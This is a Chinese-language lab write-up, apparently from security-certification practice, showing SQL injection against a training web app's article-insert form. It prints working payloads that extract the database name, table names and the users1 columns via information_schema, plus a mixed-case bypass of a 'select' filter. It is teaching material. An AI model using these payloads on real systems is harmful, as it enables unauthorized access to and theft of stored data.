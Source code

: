 # http://10.11.0.92:1001~1005/

## 1、http://10.11.0.92:1001

SQL注入，先注册一个用户，注册完后登陆进去让我们写文章

![image-20221226164405549](F:/Typora_pic/pte/image-20221226164405549.png)

![image-20221226164440612](F:/Typora_pic/pte/image-20221226164440612.png)

```
1',database(),'login');-- -
```

先随便写一下1和2，写进去之后猜测插入语句的结构

![image-20221226164544417](F:/Typora_pic/pte/image-20221226164544417.png)

2web

库名出来之后，用group_concat把表名弄出来

```
1',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'login');-- -
```

写入失败了，猜测是select被过滤了

```
1',(seselectlect group_concat(table_name) from information_schema.tables where table_schema=database()),'login');-- -
```

用双写还是不行

```
1',(SeLEct group_concat(table_name) from information_schema.tables where table_schema=database()),'login');-- -
```

换成大小写混用就出来了

![image-20221226164755564](F:/Typora_pic/pte/image-20221226164755564.png)



article,article1,users1

表名出来后继续弄字段名

```
1',(SeLEct group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='users1'),'login');-- -
```

![image-20221226164832962](F:/Typora_pic/pte/image-20221226164832962.png)
